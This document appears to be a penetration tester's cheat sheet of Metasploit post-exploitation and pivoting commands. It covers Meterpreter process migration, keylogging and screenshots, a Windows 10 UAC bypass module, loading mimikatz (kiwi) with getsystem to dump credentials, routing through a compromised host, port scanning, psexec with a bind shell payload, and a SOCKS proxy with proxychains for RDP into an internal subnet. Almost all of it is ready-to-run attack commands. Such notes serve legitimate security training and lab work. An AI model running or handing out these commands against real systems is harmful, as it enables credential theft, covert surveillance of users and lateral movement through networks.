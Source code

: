 ## Post-Exploitation

<pre class="language-ruby"><code class="lang-ruby"><strong># MIGRATE TO ANOTHER PROCESS
</strong>meterpreter > migrate -N explorer.exe
<strong>
</strong><strong>meterpreter > screenshot
</strong>                keyscan_start # keystrokes
                keyscan_dump
                keyscan_stop
                ps
                migrate $PID # only to a process at same level of priv or lower

# Bypass UAC W10
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
msf5 > use exploit/windows/local/bypassuac_injection_winsxs
meterpreter > load powershell
                powershell_execute "$PSVersionTable.PSVersion"
                load kiwi # mimikatz
                getsystem # since mimikatz requires SYSTEM rights
                creds_msv # dump system credentials  
</code></pre>

## Port Forwarding

{% code overflow="wrap" fullWidth="true" %}
```bash
ipconfig
# In case we find more subnetworks, add a route to a network reachable through a compromised host
msf6 exploit(multi/handler) > route add 172.16.16.0/24 $SESSION_ID
msf6 exploit(multi/handler) > route add 172.16.16.0/24 $SESSION_ID
# Now we can scan ports of hosts from that subnetwork
msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.16.16
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
# Example in case we have creds to authenticate to those ports
use exploit/windows/smb/psexec 
set SMBUser myuser
set SMBPass "MyPassword1!"
set RHOSTS 172.16.16.16
set payload windows/x64/meterpreter/bind_tcp
set LPORT 8000
msf6 exploit(windows/smb/psexec) > run

# Alternative
use multi/manage/autoroute
set session $SESSION_ID
run
# Configure a SOCKS proxy to allow applications outside of Metasploit to tunnel through the pivot on port 1080 by default
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy 
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
# Now on Kali we confirm socks5 127.0.0.1 1080 is enabled
kali@kali:~$ tail /etc/proxychains4.conf
# And we can access the subnet from our Kali
kali@kali:~$ sudo proxychains xfreerdp /v:172.16.16.16 /u:luiza

```